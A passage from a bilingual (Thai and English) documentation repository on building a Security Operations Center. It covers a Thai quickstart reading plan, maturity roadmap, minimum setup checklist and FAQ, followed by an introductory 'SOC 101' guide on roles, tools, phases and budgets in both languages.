| 5 | 10 นาที | [นโยบายข้อมูล](../02_Platform_Operations/Database_Management.th.md) | การจัดการ Log Data และ Retention |
| 6 | 10 นาที | [แบบประเมิน SOC](../06_Operations_Management/SOC_Assessment_Checklist.th.md) | วิเคราะห์ Gap ของสถานะปัจจุบัน |

### 🟡 สัปดาห์ที่ 3 — สร้าง (ทำกระบวนการหลัก)

| ขั้นตอน | เวลา | เอกสาร | สิ่งที่จะเรียนรู้ |
|:---:|:---:|---|---|
| 7 | 20 นาที | [กรอบ IR](../05_Incident_Response/Framework.th.md) | วิธีจัดการ Incident ตั้งแต่ต้นจนจบ |
| 8 | 30 นาที | **Playbook 5 ชุดแรก** (ดูด้านล่าง) | วิธีตอบสนองต่อการโจมตีที่พบบ่อย |
| 9 | 15 นาที | [Detection Rules](../08_Detection_Engineering/README.md) | กฎ Sigma สำเร็จรูปพร้อม Deploy |
| 10 | 10 นาที | [Integration Hub](../03_User_Guides/Integration_Hub.th.md) | วิธีเชื่อมต่อเครื่องมือเข้าด้วยกัน |

### 🟢 สัปดาห์ที่ 4 — เปิดใช้งาน (Go Live)

| ขั้นตอน | เวลา | เอกสาร | สิ่งที่จะเรียนรู้ |
|:---:|:---:|---|---|
| 11 | 10 นาที | [มาตรฐานส่งมอบกะ](../06_Operations_Management/Shift_Handoff.th.md) | การทำงาน 24/7 |
| 12 | 10 นาที | [ตัวชี้วัด SOC](../06_Operations_Management/SOC_Metrics.th.md) | MTTD, MTTR, False Positive Rate |
| 13 | 15 นาที | [รายงานรายเดือน](../11_Reporting_Templates/Monthly_SOC_Report.th.md) | การรายงานให้ผู้บริหาร |
| 14 | 10 นาที | [หลักสูตร Analyst](../10_Training_Onboarding/Analyst_Onboarding_Path.th.md) | วิธีฝึก Analyst ใหม่ |

## Playbook 5 ชุดที่ต้องเริ่มก่อน

เริ่มจากชุดนี้ — ครอบคลุม 80% ของ Incident ในโลกจริง:

| ลำดับ | Playbook | ทำไมต้องเริ่มที่นี่ |
|:---:|---|---|
| 1️⃣ | [Phishing](../05_Incident_Response/Playbooks/Phishing.th.md) | ช่องทางโจมตีอันดับ 1 ที่พบมากที่สุด |
| 2️⃣ | [Malware Infection](../05_Incident_Response/Playbooks/Malware_Infection.th.md) | Escalation ที่พบบ่อยที่สุดจาก Phishing |
| 3️⃣ | [Brute Force](../05_Incident_Response/Playbooks/Brute_Force.th.md) | ตรวจจับง่าย เหมาะฝึก Tier 1 |
| 4️⃣ | [Account Compromise](../05_Incident_Response/Playbooks/Account_Compromise.th.md) | พื้นที่โจมตีขยายตัวจากการใช้ Cloud |
| 5️⃣ | [Ransomware](../05_Incident_Response/Playbooks/Ransomware.th.md) | ผลกระทบต่อธุรกิจสูงสุด |

## SOC Maturity Roadmap

```mermaid
graph TD
    subgraph Phase1["Phase 1: คลาน (เดือน 1-3)"]
        A1[Deploy SIEM]
        A2[นำเข้า Log 10 แหล่ง]
        A3[จ้างคน 3-5 คน]
        A4[กำหนดขั้นตอน Escalation]
    end

    subgraph Phase2["Phase 2: เดิน (เดือน 3-6)"]
        B1[เปิดใช้ Detection Rules 10 กฎ]
        B2[เปิดใช้ Playbook 5 ชุด]
        B3["จัดตารางกะ (8x5)"]
        B4["FP Rate < 30%"]
    end

    subgraph Phase3["Phase 3: วิ่ง (เดือน 6-12)"]
        C1[ใช้ Playbook ครบ 50 ชุด]
        C2[EDR ครบทุก Endpoint]
        C3[Purple Team ครั้งแรก]
        C4[รายงาน KPI รายเดือน]
    end

    subgraph Phase4["Phase 4: วิ่งเร็ว (ปี 1-2)"]
        D1[โปรแกรม Threat Hunting]
        D2[Threat Intel Feeds]
        D3[SOAR Automation]
        D4[MITRE ATT&CK Coverage Map]
    end

    subgraph Phase5["Phase 5: บิน (ปี 2+)"]
        E1["SOC-CMM Level 3+"]
        E2["Triage อัตโนมัติ 80%+"]
        E3[Detection-as-Code CI/CD]
        E4[SOC Assessment ประจำปี]
    end

    Phase1 --> Phase2 --> Phase3 --> Phase4 --> Phase5

    style Phase1 fill:#e74c3c,color:#fff
    style Phase2 fill:#e67e22,color:#fff
    style Phase3 fill:#f1c40f,color:#000
    style Phase4 fill:#2ecc71,color:#fff
    style Phase5 fill:#3498db,color:#fff
```

## Minimum Viable SOC Checklist

สิ่งที่ต้องมีอย่างน้อยที่สุดเพื่อเริ่มต้น — "Day 1" ของคุณ:

- [ ] **SIEM 1 ตัว** (แนะนำ Wazuh สำหรับองค์กรงบจำกัด)
- [ ] **Log Source 3 แหล่ง** (Firewall, Active Directory, Email)
- [ ] **คน 3 คน** (Tier 1 Analyst 2 คน + Manager 1 คน)
- [ ] **Detection Rules 5 กฎ** (จาก `08_Detection_Engineering/sigma_rules/`)
- [ ] **Playbook 1 ชุด** (เริ่มจาก Phishing)
- [ ] **ระบบ Ticketing 1 ตัว** (TheHive หรือ Jira)
- [ ] **เส้นทาง Escalation 1 เส้น** (Tier 1 → Manager → CISO)
- [ ] **ช่องทางสื่อสาร 1 ช่อง** (Slack/Teams สำหรับทีม SOC)

> ✅ ถ้าทำครบ 8 ข้อข้างบน คุณก็มี SOC ที่ทำงานได้แล้ว!

## คำถามที่พบบ่อย

| # | คำถาม | คำตอบ |
|:---|:---|:---|
| 1 | ต้องมีกี่คนถึงเริ่ม SOC ได้? | ขั้นต่ำ 3: T1 2 คน + Manager 1 คน |
| 2 | ควรใช้ SIEM ตัวไหน? | งบน้อย: Wazuh (ฟรี) / Enterprise: Splunk, Elastic, Sentinel |
| 3 | SOC จะ effective ใช้เวลานานแค่ไหน? | Crawl (3 เดือน), Walk (6 เดือน), Run (12 เดือน) |
| 4 | ต้อง 24/7 ตั้งแต่วันแรกไหม? | ไม่ เริ่มจาก 8x5 แล้วขยายเมื่อ maturity เพิ่ม |
| 5 | ควรสร้าง playbooks ตัวไหนก่อน? | Phishing, Malware, Brute Force, Account Compromise, Ransomware |
| 6 | ต้องมี detection rules กี่ตัว? | เริ่มจาก 5-10 ตัวที่ confidence สูง แล้วค่อยเพิ่ม |
| 7 | ควร build หรือ buy SOC? | เริ่มภายใน + MSSP ช่วยถ้างบพอ |
| 8 | Analyst ต้องมี cert อะไร? | T1: Security+/CySA+ / T2: GCIH / T3: GCFA/OSCP |
| 9 | วัดประสิทธิภาพ SOC อย่างไร? | MTTD, MTTR, FP rate, SLA compliance |
| 10 | ใช้ repo นี้สำหรับองค์กรได้ไหม? | ได้! Fork, ปรับแต่ง, contribute back |

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [SOC 101](SOC_101.th.md)
-   [คำศัพท์สำคัญ](Glossary.th.md)
-   [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md)
-   [หลักสูตร Analyst](../10_Training_Onboarding/Analyst_Onboarding_Path.th.md)

## References
-   [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
-   [SOC-CMM — SOC Capability Maturity Model](https://www.soc-cmm.com/)
-   [SANS SOC Survey](https://www.sans.org/white-papers/soc-survey/)


---

## File: 00_Getting_Started/SOC_101.en.md

# SOC 101 — What is a Security Operations Center?

This document explains what a SOC is, why organizations need one, and what it takes to build one from scratch. No prior cybersecurity knowledge required.

## 1. What is a SOC?

```mermaid
graph LR
    Threats[🌐 Cyber Threats] --> SOC[🛡️ SOC]
    SOC --> Detect[Detect]
    SOC --> Respond[Respond]
    SOC --> Recover[Recover]
    Detect --> Safe[✅ Organization Protected]
    Respond --> Safe
    Recover --> Safe
```

A **Security Operations Center (SOC)** is a team of cybersecurity professionals who **monitor, detect, and respond** to security threats targeting an organization — 24 hours a day, 7 days a week.

Think of it as:
-   🏥 **Hospital Emergency Room** — but for cyber incidents instead of medical emergencies
-   🚒 **Fire Station** — always ready, watching for fires (attacks), and responding immediately
-   🗼 **Air Traffic Control Tower** — monitoring everything, coordinating responses, preventing disasters

### What Does a SOC Protect?
-   **Data**: Customer records, financial data, intellectual property
-   **Systems**: Servers, networks, cloud infrastructure, endpoints (laptops/desktops)
-   **People**: Employees from phishing, social engineering, and fraud
-   **Business**: Revenue, reputation, regulatory compliance

## 2. Why Does Your Organization Need a SOC?

### The Reality of Cyber Threats
-   **Average time to detect a breach**: 194 days (without a SOC) — *IBM, 2024*
-   **Average cost of a data breach**: $4.88 million USD — *IBM Cost of a Data Breach Report, 2024*
-   **Ransomware attacks**: Every 11 seconds, a business is hit — *Cybersecurity Ventures*
-   **Regulatory requirements**: PDPA (Thailand), GDPR (EU), PCI-DSS require security monitoring

### What Happens WITHOUT a SOC?
| Scenario | Without SOC | With SOC |
|---|---|---|
| Phishing email received | Nobody notices → Data stolen | Detected in minutes → Blocked |
| Ransomware deployed | Discovered days later → Systems encrypted | Detected immediately → Contained |
| Unauthorized access | Found during audit months later | Real-time alert → Account locked |
| Data exfiltration | Unknown until public disclosure | Detected by monitoring → Stopped |

## 3. Core Components of a SOC

```mermaid
graph TD
    SOC[SOC] --> People[👥 People]
    SOC --> Process[📋 Process]
    SOC --> Tech[🖥️ Technology]

    People --> T1[Tier 1: Alert Analysts]
    People --> T2[Tier 2: Incident Responders]
    People --> T3[Tier 3: Threat Hunters]
    People --> Mgr[SOC Manager]

    Process --> PB[Playbooks]
    Process --> IR[Incident Response]
    Process --> SH[Shift Handoff]

    Tech --> SIEM[SIEM]
    Tech --> EDR[EDR]
    Tech --> SOAR[SOAR]
    Tech --> TI[Threat Intel]
```

### 3.1 People — Who Works in a SOC?

| Role | What They Do | Analogy |
|---|---|---|
| **Tier 1 Analyst** | Watch screens, triage alerts, escalate real threats | Security guard watching CCTV |
| **Tier 2 Responder** | Deep-dive investigations, contain active attacks | Detective solving a case |
| **Tier 3 Hunter** | Proactively search for hidden threats | Undercover agent tracking criminals |
| **Detection Engineer** | Build and tune alert rules | Alarm system technician |
| **SOC Manager** | Lead the team, report to executives | Police chief |

> 📖 **Deep Dive**: See [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md) for full role definitions, skills required, career path, and staffing models.

### 3.2 Process — How Does a SOC Operate?

| Process | Purpose | Document |
|---|---|---|
| **Incident Response** | Step-by-step guide to handle attacks | [IR Framework](../05_Incident_Response/Framework.en.md) |
| **Playbooks** | Specific procedures for each attack type | [50 Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md) |
| **Shift Handoff** | Ensure continuity between shifts (24/7) | [Shift Handoff](../06_Operations_Management/Shift_Handoff.en.md) |
| **Detection Engineering** | Create rules that detect bad behavior | [Detection Lifecycle](../03_User_Guides/Content_Management.en.md) |
| **Reporting** | Show leadership what the SOC is doing | [Monthly Report](../11_Reporting_Templates/Monthly_SOC_Report.en.md) |

### 3.3 Technology — What Tools Does a SOC Use?

| Tool | What It Does | Open Source Option | Commercial Option |
|---|---|---|---|
| **SIEM** | Collects all logs, finds patterns, creates alerts | Wazuh, Elastic SIEM | Splunk, Microsoft Sentinel, QRadar |
| **EDR** | Monitors endpoints (laptops/servers) for malware | Wazuh, Velociraptor | CrowdStrike, SentinelOne, Defender |
| **SOAR** | Automates repetitive SOC tasks | TheHive + Cortex, Shuffle | Splunk SOAR, Palo Alto XSOAR |
| **Threat Intel Platform** | Tracks known bad IPs, domains, file hashes | MISP, OpenCTI | Recorded Future, Mandiant |
| **Ticketing** | Tracks incidents from start to finish | TheHive, RTIR | ServiceNow, Jira |
| **Network Monitoring** | Watches network traffic for anomalies | Zeek, Suricata | Darktrace, ExtraHop |

## 4. How to Build a SOC — The 5-Step Path

```mermaid
graph LR
    P1[Phase 1: Foundation] --> P2[Phase 2: Detection]
    P2 --> P3[Phase 3: Response]
    P3 --> P4[Phase 4: Hunting]
    P4 --> P5[Phase 5: Optimization]

    style P1 fill:#e74c3c,color:#fff
    style P2 fill:#e67e22,color:#fff
    style P3 fill:#f1c40f,color:#000
    style P4 fill:#2ecc71,color:#fff
    style P5 fill:#3498db,color:#fff
```

### Phase 1: Foundation (Month 1-3) — "Crawl"
**Goal**: Get visibility into what's happening in your environment.

- [ ] Choose and deploy a SIEM (start with Wazuh if budget is limited)
- [ ] Identify your top 10 critical assets (servers, databases, cloud accounts)
- [ ] Onboard log sources: Firewall, Active Directory, Email, VPN
- [ ] Hire 2-3 Tier 1 Analysts + 1 SOC Manager
- [ ] Set up a ticketing system (TheHive or Jira)
- [ ] Define basic escalation procedures

> 📖 Read: [SOC Infrastructure Setup](../10_Training_Onboarding/System_Activation.en.md)

### Phase 2: Detection (Month 3-6) — "Walk"
**Goal**: Create meaningful alerts that detect real attacks.

- [ ] Implement top 10 detection rules (start with [our Sigma rules](../08_Detection_Engineering/README.md))
- [ ] Create your first 5 Playbooks (Phishing, Malware, Brute Force, Account Compromise, Ransomware)
- [ ] Enable a detection rule for each MITRE ATT&CK tactic
- [ ] Tune rules to reduce False Positives below 30%
- [ ] Establish shift schedule (start with 8x5, expand to 24x7 later)

> 📖 Read: [Detection Engineering Lifecycle](../03_User_Guides/Content_Management.en.md)

### Phase 3: Response (Month 6-12) — "Run"
**Goal**: Respond to real incidents effectively.

- [ ] Implement all 50 Playbooks from this repository
- [ ] Hire Tier 2 Incident Responders
- [ ] Set up EDR on all endpoints
- [ ] Conduct first Purple Team exercise ([Simulation Guide](../09_Simulation_Testing/Simulation_Guide.en.md))
- [ ] Implement SOC KPIs: MTTD, MTTR, False Positive Rate
- [ ] Begin monthly executive reporting

> 📖 Read: [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md)

### Phase 4: Hunting (Year 1-2) — "Sprint"
**Goal**: Proactively find threats that bypass detection.

- [ ] Hire or train a Tier 3 Threat Hunter
- [ ] Implement Threat Intelligence feeds (MISP/OpenCTI)
- [ ] Map detection coverage to MITRE ATT&CK
- [ ] Conduct quarterly Threat Hunting campaigns
- [ ] Implement SOAR for automated response

> 📖 Read: [Threat Intelligence Lifecycle](../06_Operations_Management/Threat_Intelligence_Lifecycle.en.md)

### Phase 5: Optimization (Year 2+) — "Fly"
**Goal**: Measure, improve, and mature continuously.

- [ ] Achieve SOC-CMM Level 3+ Maturity
- [ ] Automate 80%+ of Tier 1 triage with SOAR
- [ ] Implement Detection-as-Code (CI/CD for rules)
- [ ] Conduct annual SOC Assessment ([Assessment Checklist](../06_Operations_Management/SOC_Assessment_Checklist.en.md))
- [ ] Publish Quarterly Business Reviews to leadership

## 5. Estimated Budget

| SOC Size | Staff | Tools (Annual) | Total Year 1 |
|---|---|---|---|
| **Minimal** (Open Source, 8x5) | 3-5 people | $0-20K | ~$150K-250K |
| **Standard** (Mixed, 16x5) | 6-10 people | $50K-150K | ~$500K-800K |
| **Enterprise** (Commercial, 24x7) | 12-20 people | $200K-500K | ~$1.5M-3M |

> **Tip**: Start small with open-source tools. You can always upgrade as you mature.

## 6. How to Use This Repository

This repository contains everything you need to operate a SOC. Here's the recommended reading order:

| # | Start Here | Document |
|---|---|---|
| 1 | 📖 You are here | **SOC 101** (this document) |
| 2 | 👥 Build your team | [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md) |
| 3 | 🏗️ Set up infrastructure | [SOC Infrastructure Setup](../10_Training_Onboarding/System_Activation.en.md) |
| 4 | 📋 Learn the IR process | [Incident Response Framework](../05_Incident_Response/Framework.en.md) |
| 5 | 📕 Study the Playbooks | [PB-01 Phishing](../05_Incident_Response/Playbooks/Phishing.en.md) (start here) |
| 6 | 🔍 Deploy detection rules | [Detection Rules](../08_Detection_Engineering/README.md) |
| 7 | ⏰ Set up shift operations | [Shift Handoff](../06_Operations_Management/Shift_Handoff.en.md) |
| 8 | 📊 Measure your KPIs | [SOC Metrics](../06_Operations_Management/SOC_Metrics.en.md) |
| 9 | 🎯 Run simulations | [Simulation Guide](../09_Simulation_Testing/Simulation_Guide.en.md) |
| 10 | 🎓 Train new analysts | [Analyst Onboarding Path](../10_Training_Onboarding/Analyst_Onboarding_Path.en.md) |

## Related Documents
-   [Quickstart Guide](Quickstart_Guide.en.md)
-   [Glossary of Terms](Glossary.en.md)
-   [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md)
-   [SOC Infrastructure Setup](../10_Training_Onboarding/System_Activation.en.md)

## References
-   [NIST Cybersecurity Framework (CSF)](https://www.nist.gov/cyberframework)
-   [CISA — Setting Up a SOC](https://www.cisa.gov/topics/cyber-threats-and-advisories)
-   [SOC-CMM — SOC Capability Maturity Model](https://www.soc-cmm.com/)
-   [MITRE ATT&CK Framework](https://attack.mitre.org/)
-   [IBM Cost of a Data Breach Report](https://www.ibm.com/reports/data-breach)
-   [SANS SOC Survey](https://www.sans.org/white-papers/soc-survey/)


---

## File: 00_Getting_Started/SOC_101.th.md

# SOC 101 — ศูนย์ปฏิบัติการความปลอดภัยคืออะไร? (What is a SOC?)

เอกสารนี้อธิบายว่า SOC คืออะไร ทำไมองค์กรถึงจำเป็นต้องมี และต้องทำอย่างไรถึงจะสร้างได้ตั้งแต่เริ่มต้น ไม่ต้องมีความรู้ด้านไซเบอร์ซีเคียวริตี้มาก่อน

## 1. SOC คืออะไร?

```mermaid
graph LR
    Threats[🌐 ภัยคุกคามไซเบอร์] --> SOC[🛡️ SOC]
    SOC --> Detect[ตรวจจับ]
    SOC --> Respond[ตอบสนอง]
    SOC --> Recover[กู้คืน]
    Detect --> Safe[✅ องค์กรปลอดภัย]
    Respond --> Safe
    Recover --> Safe
```

**Security Operations Center (SOC)** คือทีมผู้เชี่ยวชาญด้านไซเบอร์ซีเคียวริตี้ที่ทำหน้าที่ **เฝ้าระวัง ตรวจจับ และตอบสนอง** ต่อภัยคุกคามทางไซเบอร์ที่เข้ามาโจมตีองค์กร — ตลอด 24 ชั่วโมง 7 วัน

เปรียบเทียบได้กับ:
-   🏥 **ห้องฉุกเฉินโรงพยาบาล** — แต่รักษา "เหตุการณ์ไซเบอร์" แทนการรักษาผู้ป่วย
-   🚒 **สถานีดับเพลิง** — พร้อมเสมอ เฝ้าดูว่ามี "ไฟ" (การโจมตี) ที่ไหน แล้วตอบสนองทันที
-   🗼 **หอควบคุมการบิน** — เฝ้าดูทุกอย่าง ประสานงานการตอบสนอง ป้องกันหายนะ

### SOC ปกป้องอะไร?
-   **ข้อมูล**: ข้อมูลลูกค้า ข้อมูลการเงิน ทรัพย์สินทางปัญญา
-   **ระบบ**: เซิร์ฟเวอร์ เครือข่าย ระบบ Cloud เครื่องคอมพิวเตอร์พนักงาน
-   **บุคคล**: ปกป้องพนักงานจาก Phishing, Social Engineering, การฉ้อโกง
-   **ธุรกิจ**: รายได้ ชื่อเสียง และการปฏิบัติตามกฎหมาย

## 2. ทำไมองค์กรของคุณถึงต้องมี SOC?

### ความเป็นจริงของภัยคุกคามไซเบอร์
-   **เวลาเฉลี่ยในการตรวจพบการถูกแฮก**: 194 วัน (ถ้าไม่มี SOC) — *IBM, 2024*
-   **ค่าเสียหายเฉลี่ยจากข้อมูลรั่วไหล**: 4.88 ล้านเหรียญสหรัฐ — *IBM Cost of a Data Breach Report, 2024*
-   **Ransomware**: ทุกๆ 11 วินาที มีธุรกิจถูกโจมตี — *Cybersecurity Ventures*
-   **กฎหมาย**: PDPA (ไทย), GDPR (ยุโรป), PCI-DSS กำหนดให้ต้องมีการเฝ้าระวัง

### เปรียบเทียบ: มี SOC vs ไม่มี SOC
| สถานการณ์ | ❌ ไม่มี SOC | ✅ มี SOC |
|---|---|---|
| ได้รับ Phishing Email | ไม่มีใครสังเกต → ข้อมูลถูกขโมย | ตรวจพบภายในนาที → บล็อก |
| Ransomware ถูกปล่อย | พบหลังหลายวัน → ระบบถูกเข้ารหัส | ตรวจพบทันที → จำกัดวง |
| มีคนเข้าถึงระบบโดยไม่ได้รับอนุญาต | พบตอน Audit เดือนถัดไป | แจ้งเตือน Real-time → ล็อกบัญชี |
| ข้อมูลรั่วไหล | ไม่รู้จนกว่าจะเป็นข่าว | ตรวจพบจากการเฝ้าระวัง → หยุดทัน |

## 3. องค์ประกอบหลักของ SOC

```mermaid
graph TD
    SOC[SOC] --> People[👥 คน]
    SOC --> Process[📋 กระบวนการ]
    SOC --> Tech[🖥️ เทคโนโลยี]

    People --> T1[Tier 1: นักวิเคราะห์ Alert]
    People --> T2[Tier 2: ผู้ตอบสนอง Incident]
    People --> T3[Tier 3: นักล่าภัยคุกคาม]
    People --> Mgr[ผู้จัดการ SOC]

    Process --> PB[Playbooks]
    Process --> IR[Incident Response]
    Process --> SH[การส่งมอบกะ]

    Tech --> SIEM[SIEM]
    Tech --> EDR[EDR]
    Tech --> SOAR[SOAR]
    Tech --> TI[Threat Intel]
```

### 3.1 คน (People) — ใครทำงานใน SOC?

| ตำแหน่ง | หน้าที่ | เปรียบเทียบ |
|---|---|---|
| **Tier 1 Analyst** | ดูหน้าจอ คัดกรอง Alert ส่งต่อภัยจริง | รปภ. ดูกล้องวงจรปิด |
| **Tier 2 Responder** | สืบสวนเชิงลึก จำกัดวงการโจมตี | นักสืบสอบสวนคดี |
| **Tier 3 Hunter** | ล่าภัยคุกคามเชิงรุกที่ซ่อนอยู่ | สายลับติดตามอาชญากร |
| **Detection Engineer** | สร้างและปรับแต่งกฎแจ้งเตือน | ช่างติดตั้งระบบสัญญาณกันขโมย |
| **SOC Manager** | บริหารทีม รายงานผู้บริหาร | ผู้กำกับตำรวจ |

> 📖 **อ่านเพิ่มเติม**: ดู [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md) สำหรับรายละเอียดบทบาท ทักษะที่ต้องการ เส้นทางอาชีพ และจำนวนคนแนะนำ

### 3.2 กระบวนการ (Process) — SOC ทำงานอย่างไร?

| กระบวนการ | วัตถุประสงค์ | เอกสาร |
|---|---|---|
| **Incident Response** | ขั้นตอนรับมือเหตุการณ์โจมตี | [กรอบ IR](../05_Incident_Response/Framework.th.md) |
| **Playbooks** | วิธีรับมือเฉพาะแต่ละประเภทการโจมตี | [50 Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md) |
| **การส่งมอบกะ** | ส่งต่อข้อมูลระหว่างกะ (24/7) | [มาตรฐานส่งมอบกะ](../06_Operations_Management/Shift_Handoff.th.md) |
| **Detection Engineering** | สร้างกฎตรวจจับพฤติกรรมอันตราย | [วงจรชีวิตการตรวจจับ](../03_User_Guides/Content_Management.th.md) |
| **การรายงาน** | แสดงผลงาน SOC ให้ผู้บริหาร | [รายงานประจำเดือน](../11_Reporting_Templates/Monthly_SOC_Report.th.md) |

### 3.3 เทคโนโลยี (Technology) — SOC ใช้เครื่องมืออะไร?

| เครื่องมือ | หน้าที่ | Open Source (ฟรี) | Commercial (เสียเงิน) |
|---|---|---|---|
| **SIEM** | รวม Log ทั้งหมด จับ Pattern สร้าง Alert | Wazuh, Elastic SIEM | Splunk, Microsoft Sentinel |
| **EDR** | เฝ้าดูเครื่อง Endpoint หามัลแวร์ | Wazuh, Velociraptor | CrowdStrike, SentinelOne |
| **SOAR** | ทำงาน SOC ซ้ำๆ อัตโนมัติ | TheHive + Cortex, Shuffle | Splunk SOAR, Palo Alto XSOAR |
| **Threat Intel** | ติดตาม IP, โดเมน, ไฟล์อันตราย | MISP, OpenCTI | Recorded Future, Mandiant |
| **Ticketing** | ติดตาม Incident ตั้งแต่ต้นจนจบ | TheHive, RTIR | ServiceNow, Jira |
| **Network Monitor** | ดู Traffic เครือข่ายหาความผิดปกติ | Zeek, Suricata | Darktrace, ExtraHop |

## 4. วิธีสร้าง SOC — เส้นทาง 5 ขั้น

```mermaid
graph LR
    P1[Phase 1: วางรากฐาน] --> P2[Phase 2: ตรวจจับ]
    P2 --> P3[Phase 3: ตอบสนอง]
    P3 --> P4[Phase 4: ล่าภัย]
    P4 --> P5[Phase 5: ปรับปรุง]

    style P1 fill:#e74c3c,color:#fff
    style P2 fill:#e67e22,color:#fff
    style P3 fill:#f1c40f,color:#000
    style P4 fill:#2ecc71,color:#fff
    style P5 fill:#3498db,color:#fff
```

### Phase 1: วางรากฐาน (เดือน 1-3) — "คลาน"
**เป้าหมาย**: มองเห็นว่าเกิดอะไรขึ้นในระบบ

- [ ] เลือกและติดตั้ง SIEM (เริ่มจาก Wazuh ถ้างบจำกัด)
- [ ] ระบุ 10 ทรัพย์สินสำคัญที่สุด (เซิร์ฟเวอร์, ฐานข้อมูล, บัญชี Cloud)
- [ ] นำเข้า Log: Firewall, Active Directory, Email, VPN
- [ ] จ้าง Tier 1 Analyst 2-3 คน + SOC Manager 1 คน
- [ ] ตั้งระบบ Ticketing (TheHive หรือ Jira)
- [ ] กำหนดขั้นตอนการ Escalate เบื้องต้น

> 📖 อ่าน: [การติดตั้ง SOC](../10_Training_Onboarding/System_Activation.th.md)

### Phase 2: ตรวจจับ (เดือน 3-6) — "เดิน"
**เป้าหมาย**: สร้างกฎแจ้งเตือนที่ตรวจจับการโจมตีจริง

- [ ] ใช้ 10 Detection Rules แรก (เริ่มจาก [Sigma Rules ของเรา](../08_Detection_Engineering/README.md))
- [ ] สร้าง 5 Playbook แรก (Phishing, Malware, Brute Force, Account Compromise, Ransomware)
- [ ] เปิดใช้กฎตรวจจับสำหรับแต่ละ MITRE ATT&CK Tactic
- [ ] ปรับแต่งกฎให้ลด False Positive ต่ำกว่า 30%
- [ ] จัดตารางกะ (เริ่มจาก 8x5, ขยายเป็น 24x7 ทีหลัง)

> 📖 อ่าน: [วงจรชีวิตวิศวกรรมการตรวจจับ](../03_User_Guides/Content_Management.th.md)

### Phase 3: ตอบสนอง (เดือน 6-12) — "วิ่ง"
**เป้าหมาย**: ตอบสนองต่อ Incident จริงได้อย่างมีประสิทธิภาพ

- [ ] ใช้ Playbook ทั้ง 50 ชุดจาก Repository นี้
- [ ] จ้าง Tier 2 Incident Responders
- [ ] ติดตั้ง EDR บนทุก Endpoint
- [ ] จัด Purple Team ครั้งแรก ([Simulation Guide](../09_Simulation_Testing/Simulation_Guide.en.md))
- [ ] เริ่มวัด KPI: MTTD, MTTR, False Positive Rate
- [ ] ส่งรายงานรายเดือนให้ผู้บริหาร

> 📖 อ่าน: [ตัวชี้วัด SOC](../06_Operations_Management/SOC_Metrics.th.md)

### Phase 4: ล่าภัย (ปี 1-2) — "วิ่งเร็ว"
**เป้าหมาย**: ค้นหาภัยคุกคามเชิงรุกที่หลุดจากการตรวจจับ

- [ ] จ้างหรือฝึก Tier 3 Threat Hunter
- [ ] ติดตั้ง Threat Intelligence Feed (MISP/OpenCTI)
- [ ] แมป Detection Coverage กับ MITRE ATT&CK
- [ ] จัด Threat Hunting Campaign ทุกไตรมาส
- [ ] ติดตั้ง SOAR สำหรับ Automated Response

> 📖 อ่าน: [วงจรชีวิต Threat Intelligence](../06_Operations_Management/Threat_Intelligence_Lifecycle.th.md)

### Phase 5: ปรับปรุง (ปี 2+) — "บิน"
**เป้าหมาย**: วัดผล ปรับปรุง และพัฒนาอย่างต่อเนื่อง

- [ ] บรรลุ SOC-CMM Level 3+
- [ ] ทำ Automation ให้ Tier 1 Triage 80%+
- [ ] ใช้ Detection-as-Code (CI/CD สำหรับกฎ)
- [ ] จัด SOC Assessment ประจำปี ([แบบประเมิน](../06_Operations_Management/SOC_Assessment_Checklist.th.md))
- [ ] ส่งรายงานรายไตรมาสให้ผู้บริหาร

## 5. งบประมาณโดยประมาณ

| ขนาด SOC | จำนวนคน | ค่าเครื่องมือ (ต่อปี) | รวมปีแรก |
|---|---|---|---|
| **เล็ก** (Open Source, 8x5) | 3-5 คน | $0-20K | ~$150K-250K |
| **กลาง** (ผสม, 16x5) | 6-10 คน | $50K-150K | ~$500K-800K |
| **ใหญ่** (Commercial, 24x7) | 12-20 คน | $200K-500K | ~$1.5M-3M |

> **เคล็ดลับ**: เริ่มเล็กๆ ด้วยเครื่องมือ Open Source ค่อยอัปเกรดเมื่อ SOC เติบโต

## 6. วิธีใช้ Repository นี้

| # | เริ่มตรงนี้ | เอกสาร |
|---|---|---|
| 1 | 📖 คุณอยู่ตรงนี้ | **SOC 101** (เอกสารนี้) |
| 2 | 👥 สร้างทีม | [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md) |
| 3 | 🏗️ ติดตั้งโครงสร้างพื้นฐาน | [การติดตั้ง SOC](../10_Training_Onboarding/System_Activation.th.md) |
| 4 | 📋 เรียนรู้กระบวนการ IR | [กรอบ Incident Response](../05_Incident_Response/Framework.th.md) |
| 5 | 📕 ศึกษา Playbook | [PB-01 Phishing](../05_Incident_Response/Playbooks/Phishing.th.md) (เริ่มที่นี่) |
| 6 | 🔍 Deploy Detection Rules | [Detection Rules](../08_Detection_Engineering/README.md) |
| 7 | ⏰ จัดระบบกะ | [มาตรฐานส่งมอบกะ](../06_Operations_Management/Shift_Handoff.th.md) |
| 8 | 📊 วัด KPI | [ตัวชี้วัด SOC](../06_Operations_Management/SOC_Metrics.th.md) |
| 9 | 🎯 จำลองการโจมตี | [Simulation Guide](../09_Simulation_Testing/Simulation_Guide.en.md) |
| 10 | 🎓 ฝึกอบรม Analyst ใหม่ | [หลักสูตร Analyst](../10_Training_Onboarding/Analyst_Onboarding_Path.th.md) |

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [คู่มือเริ่มต้นด่วน](Quickstart_Guide.th.md)
-   [คำศัพท์สำคัญ](Glossary.th.md)
-   [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md)
-   [การติดตั้ง SOC](../10_Training_Onboarding/System_Activation.th.md)

## References
-   [NIST Cybersecurity Framework (CSF)](https://www.nist.gov/cyberframework)
-   [CISA — Setting Up a SOC](https://www.cisa.gov/topics/cyber-threats-and-advisories)
-   [SOC-CMM — SOC Capability Maturity Model](https://www.soc-cmm.com/)
-   [MITRE ATT&CK Framework](https://attack.mitre.org/)
-   [IBM Cost of a Data Breach Report](https://www.ibm.com/reports/data-breach)
